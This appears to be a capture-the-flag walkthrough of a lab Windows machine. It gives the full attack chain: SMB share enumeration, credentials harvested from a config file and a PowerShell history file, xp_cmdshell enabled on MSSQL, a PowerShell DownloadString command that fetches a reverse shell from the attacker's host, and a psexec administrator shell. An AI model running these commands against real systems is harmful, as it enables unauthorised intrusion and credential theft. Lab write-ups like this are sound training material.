 # 10.10.10.27

---

## nmap -sS -sC -sV 10.10.10.27

```
PORT     STATE SERVICE    VERSION
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped Windows Server 2019 Standard 17763 tcpwrapped
1433/tcp open  ms-sql-s   Microsoft SQL Server 2017 14.00.1000.00; RTM
```

---

## smbclient -N -L 10.10.10.27

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

---

## smbclient -N \\\\10.10.10.27\\backups

```
  .                                   D        0  Mon Jan 20 15:20:57 2020
  ..                                  D        0  Mon Jan 20 15:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 15:23:02 2020

```

## In config:

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Username: ARCHETYPE

Pass: M3g4c0rp123

---

## python3 impacket/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

++ [Code Fix of tds.py](https://github.com/SecureAuthCorp/impacket/issues/856)

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> exec sp_configure 'Show Advanced Options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> exec sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL  
```

No admin privileges.

Next is reverse shell.

---

## xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.65/shell.ps1\");""

Script saved in ```shell.ps1```, had to do some clean up and fix the IP adress.

```
    sudo python3 -m http.server 80  //  shell.ps1 taken from here.
    sudo nc -lvnp 443   //  Reverse shell is sent to here.
```
Reverse shell is now ready.

---

## type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Username: administrator

Pass: MEGACORP_4dm1n!!

---

## python3 impacket/psexec.py administrator@10.10.10.27

And we have a privileged remote shell.

---

## Inside users


user.txt:
    ~~3e7b102e78218e935bf3f4951fec21a3~~

root.txt:
    ~~b91ccec3305e98240082d4474b848528~~

